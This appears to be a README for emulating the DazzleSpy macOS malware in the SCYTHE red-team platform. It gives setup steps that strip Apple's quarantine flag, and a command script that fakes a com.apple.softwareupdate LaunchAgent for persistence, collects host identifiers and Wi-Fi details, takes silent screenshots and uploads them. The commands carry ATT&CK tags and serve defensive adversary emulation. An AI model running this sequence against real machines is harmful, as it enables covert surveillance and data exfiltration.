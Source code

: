 ##DazzleSpy 

This threat is based on the [WeLiveSecure](https://www.welivesecurity.com/2022/01/25/watering-hole-deploys-new-macos-malware-dazzlespy-asia/) threat report released on January 25,2022. 

# Dazzle Spy 
1. Download and import the threats in JSON format to your SCYTHE instace
2. Download the Virtual File System (VFS) files under DazzleSpy/VFS. 
3. Upload the VFS file to your SCYTHE VFS in the following location: VFS:/shared/threats/DazzleSpy
4. Create a new campaign DazzleSpy with HTTPS and the communication option. You can import the `config.json` or manually add 
`--cp yourdomain.com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10` 
5. Import Existing Threat: *DazzleSpy*
6. Start Campaign
7. Download Campaign Client
7. In ~/Downloads run `chmod +x *.osx` and then run `sudo xattr =r =d com.apple.quareantine *.osx`
8. `./*.osx`


### To Emulate: 
```bash
loader --load downloader 
downloader --src VFS:/shared/threats/DazzleSpy/com.apple.softwareupdate.plist --dest /tmp/com.apple.softwareupdate.plist
loader --unload downloader
loader --load run
run mv /tmp/com.apple.softwareupdate.plist ~/Library/LaunchAgents/com.apple.softwareupdate.plist
run launchctl load ~/Library/LaunchAgents/com.apple.softwareupdate.plist #T1569
run whoami #T1033
run ioreg -d2 -c IOPlatformExpertDevice | awk -F\" '/IOPlatformUUID/{print $(NF-1)}'
run ioreg -l | grep IOPlatformSerialNumber #T1082
run df -h  #T1082
run sw_vers # T1082
run date #T1124
run /System/Library/PrivateFrameworks/Apple80211.framework/Resources/airport -I | awk -F: '/ SSID/{print $2}' #T1016
run csrutil status #T1068
run id -G `whoami`
run ls -lah ~/Desktop ~/Documents ~/Downloads  #T1083
run ps aux # T1057
run screencapture -t png -x /tmp/monitor1.png /tmp/monitor2.png /tmp/monitor3.png /tmp/monitor4.png #T1113
loader --load uploader
uploader --remotepath /tmp/monitor1.png #T1041
uploader --remotepath /tmp/monitor2.png #T1041
uploader --remotepath /tmp/monitor3.png #T1041
uploader --remotepath /tmp/monitor4.png #T1041
loader --unload uploader
# Cleanup
run launchctl remove com.apple.softwareupdate
run rm ~/Library/LaunchAgents/com.apple.softwareupdate.plist
run rm /tmp/monitor*.png
loader --unload run
controller --shutdown
```

